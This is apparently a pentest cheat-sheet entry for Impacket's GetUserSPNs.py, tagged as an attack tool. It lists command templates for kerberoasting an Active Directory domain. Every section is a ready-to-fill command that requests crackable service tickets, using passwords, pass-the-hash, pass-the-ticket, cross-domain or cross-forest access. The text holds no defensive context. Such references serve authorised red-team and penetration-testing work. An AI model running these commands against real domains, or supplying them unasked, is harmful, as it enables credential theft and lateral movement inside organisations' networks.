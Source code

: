 # GetUserSPNs.py  (imp)

% impacket-kerberos, windows, kerberos, 88, kerberoasting

#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 

## desc
```
 find and fetch Service Principal Names that are associated with normal user accounts
```

## kerberoasting (creds)
```bash
GetUserSPNs.py -debug -request -dc-ip <dc_fqdn> <domain_fqdn>/<user>:'<password>'
```

## kerberoasting (pth)
```bash
GetUserSPNs.py -debug -request -dc-ip <dc_fqdn> -hashes :<nt_hash> <domain_fqdn>/<user>
```

## kerberoasting (ptt)
```bash
KRB5CCNAME=<ccache> GetUserSPNs.py -debug -request -dc-ip <dc_fqdn> -no-pass -k <domain_fqdn>/<user>
```

## kerberoasting (inter domain creds)
```bash
GetUserSPNs.py -debug -request -target-domain <dst_domain_fqdn> <domain_fqdn>/<user>:'<password>'
```


## kerberoasting (inter domain pth)
```bash
GetUserSPNs.py -debug -request -target-domain <dst_domain_fqdn> -hashes :<nt_hash> <domain_fqdn>/<user>
```

## kerberoasting - cross forest (ptt)
to test
need inter-realm ticket
```bash
KRB5CCNAME=<ccache> GetUserSPNs.py -debug -request -target-domain <dst_domain_fqdn> -no-pass -k <domain_fqdn>/<user>
```